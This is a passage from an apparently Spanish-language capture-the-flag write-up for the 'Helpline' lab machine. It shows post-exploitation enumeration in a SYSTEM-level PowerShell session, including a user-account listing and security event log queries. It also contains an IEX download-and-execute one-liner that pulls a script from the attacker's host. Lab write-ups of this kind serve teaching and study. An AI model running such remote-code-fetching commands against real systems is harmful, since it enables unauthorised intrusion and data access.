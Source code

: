 ```null
PS C:\Windows\Temp> net user zachary
User name                    zachary
Full Name                    zachary
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            12/21/2018 9:25:34 PM
Password expires             Never
Password changeable          12/21/2018 9:25:34 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   12/28/2018 9:57:32 PM

Logon hours allowed          All

Local Group Memberships      *Event Log Readers    *Users
Global Group memberships     *None
The command completed successfully.
```

Podría tratar de listar los LOGs del Sistema, aunque directamente como nt authority\system. Utilizo un script disponible en [Github](https://raw.githubusercontent.com/RamblingCookieMonster/PowerShell/master/Get-WinEventData.ps1)

```null
wget https://raw.githubusercontent.com/RamblingCookieMonster/PowerShell/master/Get-WinEventData.ps1
```

Suponiendo que hay una tarea que se ejecuta en intervalos regulares de tiempo, podría intentar ver quien la ejecuta y cual es el proceso asociado. En Google busco por el ID correspondiente

<img src="/writeups/assets/img/Helpline-htb/8.png" alt="">

```null
PS C:\Windows\Temp> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.10/Get-WinEventData.ps1')

PS C:\Windows\Temp> Get-WinEvent -FilterHashtable @{Logname='security';id=4688} -MaxEvents 10 | Get-WinEventData


   ProviderName: Microsoft-Windows-Security-Auditing

TimeCreated                     Id LevelDisplayName Message                                                                                                                                                      
```